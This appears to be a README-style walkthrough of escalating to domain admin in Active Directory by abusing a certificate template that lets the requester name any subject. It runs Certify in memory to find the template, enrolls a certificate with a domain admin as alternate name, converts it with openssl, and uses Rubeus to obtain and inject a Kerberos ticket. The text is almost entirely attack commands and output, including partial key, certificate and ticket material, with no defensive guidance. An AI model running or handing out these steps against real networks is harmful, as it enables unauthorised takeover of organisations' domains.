 Thanks for great paper and tool : https://github.com/GhostPack/Certify

Simple explaination : 

There is multiple certificate templates in AD CS, some of them we have enrollment rights and some of them we dont. Also there is a flag  for "ENROLLEE_SUPPLIES_SUBJECT" which means when requesting a certificate, we can also define a alternate name for it. We will enroll a certificate and give alternate name as one of domain admin accounts and use this certificate to request a TGT 

First i will compile and run in memory as mentioned : https://github.com/GhostPack/Certify#sidenote-running-certify-through-powershell

Check vulnerable CA

	[Certify.Program]::Main("find /vulnerable".Split())
	
There is a vulnerable template

	CA Name                               : Valhalla-CA1.valhalla.local\valhalla-CA
	Template Name                         : ValhallaUser
	Schema Version                        : 2
	Validity Period                       : 1 year
	Renewal Period                        : 6 weeks
	msPKI-Certificates-Name-Flag          : ENROLLEE_SUPPLIES_SUBJECT
	mspki-enrollment-flag                 : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS
	Authorized Signatures Required        : 0
	pkiextendedkeyusage                   : Client Authentication, Encrypting File System, Secure Email
	mspki-certificate-application-policy  : Client Authentication, Encrypting File System, Secure Email
	Permissions
	Enrollment Permissions
	Enrollment Rights           : valhalla\Domain Admins        S-1-5-21-******-******-******-512
						valhalla\Domain Users         S-1-5-21-******-******-******-513
						valhalla\Enterprise Admins    S-1-5-21-******-******-******-519
										  						
	Object Control Permissions
			Owner                       : 	valhalla\admin		         S-1-5-21-******-******-******-5747
			WriteOwner Principals       : 	valhalla\Domain Admins        S-1-5-21-******-******-******-512
										  									valhalla\Enterprise Admins    S-1-5-21-******-******-******-519
			WriteDacl Principals        : 	valhalla\Domain Admins        S-1-5-21-******-******-******-512
										 									 valhalla\Enterprise Admins    S-1-5-21-******-******-******-519
			WriteProperty Principals    : 	valhalla\Domain Admins        S-1-5-21-******-******-******-512
										 									 valhalla\Enterprise Admins    S-1-5-21-******-******-******-519
																			 
																			 

Enroll certificate with alternate name which is domain admin

	[Certify.Program]::Main("request /ca:Valhalla-CA1.valhalla.local\valhalla-CA /template:ValhallaUser /altname:superadmin".Split())

	[*] Action: Request a Certificates

	[*] Current user context    : valhalla\testuser
	[*] No subject name specified, using current context as subject.

	[*] Template                : ValhallaUser
	[*] Subject                 : ********
	[*] AltName                 : superadmin

	[*] Certificate Authority   : Valhalla-CA1.valhalla.local\valhalla-CA

	[*] CA Response             : The certificate had been issued.
	[*] Request ID              : 160811

	[*] cert.pem         :

	-----BEGIN RSA PRIVATE KEY-----
	MIIEowIBAAKCAQEAuynAtgBp0JC0nN7oCTl5bCz9/2dPjJx/LWG85DMOYRT5qAlA
	qQ4nNHkIFUwBXPG/BvrB57wTKYkDtoWyTEwJtHY93arS8bH0/PzUyCq4iuTIU/bY
	....................
	Tqau1wKBgB+BIL4QdsS4si1yRztYbXwGYHr2yNUBvgBJzw6sYVryvPV/u3QfCHHN
	+qIbvXmdwIWlc71uFAC7z76IVgzqnCJr4wc9UIPw5P0GYFpkWXPUWzNoMyCCwabD
	GdnlVgCJOVA8x9SaYu4kae/LlKdGAJtWgjI+utWrBQ1wJ4qSpDYZ
	-----END RSA PRIVATE KEY-----
	-----BEGIN CERTIFICATE-----
	MIIGlDCCBXygAwIBAgITOAACdCveKa2lX9NzAAAAAAJ0KzANBgkqhkiG9w0BAQUF
	ADBZMRIwEAYKCZImiZPyLGQBGRYCdHIxEzARBgoJkiaJk/IsZAEZFgNjb20xGDAW
	....................
	lnzIzVhjLAxmfPTJzkpMCWc2tGR4TPxcRM0dDjjq1pXxqx1zOefsfEE/4u5ga4b8
	IkXuWK6XVvv+LfD5wAy4Wu63MPJKD81gLTdCNr4U+4r7yTDmEMIT+3NOCd/o9lhg
	mVlHfB1DYpU=
	-----END CERTIFICATE-----


	[*] Convert with: openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx



	Certify completed in 00:00:04.6491198
	
Save RSA KEY and Certificate to a file called "cert.pem" and convert it to cert.pfx (i made this in kali linux machine)

	openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
	

Ask TGT with cert.pfx

	.\Rubeus.exe asktgt /user:superadmin /certificate:c:\full\path\of\cert.pfx /domain:valhalla.local /ptt

	[*] Action: Ask TGT

	[*] Using PKINIT with etype rc4_hmac and subject: ********
	[*] Building AS-REQ (w/ PKINIT preauth) for: 'valhalla\superadmin'
	[+] TGT request successful!
	[*] base64(ticket.kirbi):

		  doIFwDCCBbygAwIBBaEDAgEWooIEzjCCBMphggTGMIIEwqADAgEFoREbD09ERUFCQU5LLkNPTS5UUqIk
		  MCKgAwIBAqEbMBkbBmtyYnRndBsPb2RlYWJhbmsuY29tLnRyo4IEgDCCBHygAwIBEqEDAgEFooIEbgSC
		  BGoPpDODKpEjKMJUK+MaYfrYP61rk+Ud/zXcXeFh6snXhXri6UWAFe7jav+eZ5VfvG+KwcH2cFnaX98Y
		  ......................
		  QUJBTksuQ09NLlRSohMwEaADAgEBoQowCBsGYXQuY2FuowcDBQBA4QAApREYDzIwMjExMTE5MDY1NzU0
		  WqYRGA8yMDIxMTExOTE2NTc1NFqnERgPMjAyMTExMjYwNjU3NTRaqBEbD09ERUFCQU5LLkNPTS5UUqkk
		  MCKgAwIBAqEbMBkbBmtyYnRndBsPb2RlYWJhbmsuY29tLnRy

	  ServiceName           :  krbtgt/valhalla.local
	  ServiceRealm          :  valhalla.local
	  UserName              :  superadmin
	  UserRealm             :  valhalla.local
	  StartTime             :  
	  EndTime               :  
	  RenewTill             :  
	  Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
	  KeyType               :  rc4_hmac
	  Base64(key)           :  